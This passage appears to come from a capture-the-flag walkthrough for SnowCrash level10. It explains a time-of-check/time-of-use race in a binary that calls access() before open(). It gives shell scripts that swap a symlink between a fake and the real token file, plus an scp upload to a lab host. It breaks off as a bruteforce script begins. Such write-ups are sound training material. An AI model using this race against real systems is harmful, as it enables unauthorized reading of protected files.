     0x08048749 <+117>:	call   0x80485e0 <access@plt>
    0x0804874e <+122>:	test   %eax,%eax
    0x08048750 <+124>:	jne    0x8048940 <main+620>
    0x08048756 <+130>:	mov    $0x8048a7b,%eax
    0x0804875b <+135>:	mov    0x2c(%esp),%edx
    0x0804875f <+139>:	mov    %edx,0x4(%esp)
    0x08048763 <+143>:	mov    %eax,(%esp)
    0x08048766 <+146>:	call   0x8048520 <printf@plt>
   (...)
    ```
    We see that one of its first actions is to call the C function `access()`, which checks file permissions against our user ID.

    By reading the manual for the `access()` system call, we find indications of a potential exploit :  
            
        Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.

2. **Understanding how to exploit the vulnerability:**   
    Here is how and why the vulnerability is exploitable:
    - First, create a fake token file to which you have full access rights.
    - Then, run a script that creates a `symlink` which continuously alternates between pointing to your fake token file and the real token file.
    - Finally, run another script that continuously executes the `level10` binary with the `symlink` as its argument. 
    - The steps above allow the following scenario to occur at least once:  
    `level10` is executed | the `symlink` points towards your fake token on which you have access | the `access()` system call authorizes you to continue executing the program | the `symlink` points towards the real `token` | the program opens the real `token`. 

3. **Exploiting the vulnerability:**  
    First, let's create a file that will act as a fake token to trick the program :
    ```bash
    level10@SnowCrash:~$ echo "Fake token" > /tmp/faketoken
    ```
    Then, in order to exploit the vulnerability, we have to write the script that will alternatively link `/tmp/link` to `/tmp/faketoken` and `/home/user/level10/token`:
    ```bash
    #!/bin/sh
    while true
    do
        echo "MY LINK"
        ln -sf /tmp/faketoken /tmp/link
        echo "TOKEN LINK"
        ln -sf /home/user/level10/token /tmp/link
    done
    ```
    We can upload this script in `/tmp` using this command in the shell :
    ```bash
    scp -P 4242 ./level10/ressources/linker.sh  level10@192.168.1.14:/tmp/.
    ```
    We grant it execution rights with the command:
    ```bash
    chmod +x /tmp/linker.sh
    ```
    In order to time the execution of the binary `level10` and the correct linking, we can write a `bruteforce.sh` script that will execute `level10` continuously :
    ```bash
    #!/bin/bash
